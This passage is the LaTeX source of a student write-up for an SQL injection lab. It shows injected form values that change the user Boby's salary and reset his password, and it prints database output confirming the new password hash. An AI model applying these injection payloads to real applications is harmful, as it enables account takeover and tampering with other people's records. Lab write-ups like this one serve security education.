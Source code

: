 \documentclass[12pt,letterpaper]{article}
\begin{document}
			\begin{verbatim}
			', Salary=1 WHERE name='boby'; #
			\end{verbatim}
			
			\begin{figure}[h!]
				\includegraphics[width=\linewidth]{task-3-2-admin}
				\caption{The admin view now shows Boby's ``updated'' salary.}
			\end{figure}\textsf{\textsf{\textsf{}}}
		
		\pagebreak
		
		\subsection*{Task 3.3}
			This task is slightly different because we need to insert a real value into the password input because the backend hashes that value and sets it as the new password. Since the executed query updates the password field and then the phone number field, we can pass our new password into the password field and handle the injection to target Boby in the phone number input.
			
			If we input \texttt{password} into the ``Password'' field and insert the following statement into the ``Phone Number'' field, we can change Boby's password to \texttt{password}.
			
			\begin{verbatim}
			' WHERE name='boby' #
			\end{verbatim}
			
			If we open up the database console, we can see that Boby's password is now the SHA1 hash of \texttt{password}.
			
			\begin{verbatim}
			mysql> SELECT name, password FROM credential WHERE name='boby';
			+------+------------------------------------------+
			| name | password                                 |
			+------+------------------------------------------+
			| Boby | 5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8 |
			+------+------------------------------------------+
			\end{verbatim}
			
\end{document}
